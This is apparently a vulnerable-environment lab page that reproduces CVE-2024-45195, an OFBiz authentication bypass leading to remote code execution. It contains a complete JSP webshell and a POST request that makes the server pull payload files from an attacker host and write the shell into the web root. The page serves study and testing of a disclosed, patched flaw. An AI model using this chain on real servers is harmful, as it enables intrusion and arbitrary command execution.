

Apache OFBiz Authentication Bypass Leads to RCE (CVE-2024-45195)¶
Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.
This vulnerability occurs as a result of incomplete fixing for previous vulnerabilities (CVE-2024-32113, CVE-2024-36104, and CVE-2024-38856). In Apache OFBiz versions prior to 18.12.16, the developers implemented fixes for these previous issues, but the underlying problem of controller-view map state desynchronization still existed. This allowed attackers to bypass authentication and access sensitive admin-only view maps.
References:
- https://github.com/apache/ofbiz-framework/commit/ab78769c2d
- https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa
- https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/
Vulnerable environment¶
Executing following command to start an Apache OfBiz 18.12.15 server:
docker compose up -d
After a short wait, you can see the login page at https://localhost:8443/accounting.
Vulnerability Reproduce¶
Before reproducing the vulnerability, this exploit requires setting up a malicious XML schema file and a CSV file on an attacker-controlled server
First one rceschema.xml, this XML schema defines the structure of the malicious JSP:
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
<record name="rceentry" limit="many">
<field name="jsp" type="String" length="605" position="0"></field>
</record>
</data-file>
</data-files>
Second one rcereport.csv, this CSV file contains the actual JSP code:
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
Then send the following request:
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: target:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded
DATAFILE_LOCATION=http://attacker/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://attacker/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce

This request exploits the vulnerability by leveraging the viewdatafile view map to write a malicious JSP file to the web root, effectively achieving remote code execution.
After the JSP webshell is written, execute arbitrary commands through https://localhost:8443/accounting/index.jsp?cmd=id:
